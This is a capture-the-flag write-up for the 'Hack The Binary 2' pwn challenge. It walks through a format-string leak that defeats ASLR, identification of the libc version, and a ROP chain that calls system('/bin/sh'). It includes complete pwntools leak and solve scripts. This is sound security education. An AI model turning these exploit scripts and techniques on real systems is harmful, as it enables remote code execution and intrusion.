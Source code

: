 # Hack The Binary 2


<div class="hidden">
    <details>
        <summary>Keywords</summary>
            PwC CTF: Hack A Day 2023 - Securing AI, pwn, format string, ROP
    </details>
</div>

## TL;DR

Format string to defeat ASLR, ROP to get RCE

## Initial Analysis

The given binary file is almost similar to `Hack the Binary 1`, but without the
flag lying around in the memory and array OOB. Instead, the `login()` function
is now susceptible to format string attack. Furthermore, it is also subjected to
buffer overflow as the `scanf` format is not restricted by length.

```c
__int64 login() {
  __int64 result; // rax
  char format; // [rsp+Ah] [rbp-6h]

  do {
    printf("Please Enter Password (4 digit numbers): ");
    __isoc99_scanf("%s", &format);
    printf("Your Password is ");
    printf(&format);  // <=== format string !!!
    putchar(10);
    result = password_checker(&format);
  } while ( (_DWORD)result != 1 );
  return result;
}
```

## Solution

The first step is to leak the stack and look for any interesting address,
particularly the one that points to libc memory space since we want to call
`system()` later on to pop a shell. The format string that would be discussed
in this writeup is `%n$llx` where `n` specify the stack offset and `llx` for
64-bit value in hex format.

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln2", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}


def printf_leak(idx):
    payload = f"%{idx}$llx".encode()
    io.sendline(payload)
    io.recvuntil(b"is ")
    leak = int(io.recvline(keepends=False), 16)
    return leak


io = start()

for i in range(1, 16):
    leak = printf_leak(i)
    log.info(f"{i} {leak:#x}")

io.interactive()
```

Based on the result, the third entry is a libc address value.

![printf leak result](./img/1.png)

{{< alert "circle-info" >}}
One could also double check where is the libc memory region via `/proc/<pid>/maps`
![proc maps](./img/2.png)
{{< /alert >}}

Since the challenge does not come with a libc file, we could not directly compute
the offset between the leaked address with the base address of libc. The local
libc used in this writeup is of version `2.35-0ubuntu3`. Now, if we try to run
it against the remote server, we could see that the lowest 3 nibbles (hex digit)
is different (local is `a37`, remote is `a77`). We only compare the lowest 3
nibbles since ASLR does not affect these 3. This means that the remote server
is using a different libc version.

![remote result](./img/4.png)

We need to check if the leaked address belongs to any libc function such that
we could use the known symbol as a lookup value on libc database like:

- <https://libc.rip>
- <https://libc.blukat.me>

Now, if we attached gdb to the process (that is running local binary), we could
see that the address lies within `__GI___libc_write`.

![gdb](./img/3.png)

If we try to use the symbol name `__GI___libc_write` with the address
`0xa37-23 = 0xa20`, [libc.rip](https://libc.rip) returns us results. However,
there is no `2.35-0ubuntu3`. This means that the symbol name is not quite right.

![libc_rip](./img/6.png)

If we try to break at the beginnning of the function, `gef` (gdb plugin)
labels the function as `write`.

![gef](./img/5.png)

Now, if we use replace the symbol name with `write` instead, we get more results
and `2.35-0ubuntu3` is among them.

![libc_rip2](./img/7.png)

Next, we just need to replace the address value with the one that we got from
remote server, i.e., `0xa77-23 = 0xa60`. If we diff the results between
`__GI___libc_write 0xa60` and `write 0xa60`, we could deduce that `libc6_2.35-0ubuntu3.4_amd64`
is probably the correct one. Click on the result and we could see various offsets,
e.g., `write`, `system`, `str_bin_sh`, etc. With the offset of `write`, we could
compute the libc base address on the remote side and then use the base address
to locate `system` function address within the process memory and various other
stuffs. Another thing that we need is also a `pop rdi; ret;` gadget which does not
exist in the binary file, but is available from the libc file.

Final solve script:

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln2", checksec=False)
libc = ELF("./libc.so.6", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}


def printf_leak(idx):
    payload = f"%{idx}$llx".encode()
    io.sendline(payload)
    io.recvuntil(b"is ")
    leak = int(io.recvline(keepends=False), 16)
    return leak


io = start()

# for i in range(1, 16):
#     leak = printf_leak(i)
#     log.info(f"{i} {leak:#x}")

libc_leak = printf_leak(3)
libc.address = libc_leak - 0x114a60 - 23
log.info(f"{libc.address=:#x}")
pop_rdi = libc.address + 0x001bc0a1
ret = pop_rdi + 1
bin_sh = next(libc.search(b"/bin/sh\x00"))

payload = b"A" * 6
payload += p64(elf.bss(0xc00))
payload += flat(
    pop_rdi, bin_sh,
    ret,  # stack alignment
    libc.sym["system"]
)
io.sendline(payload)
io.sendline(b"1235")

io.interactive()
```
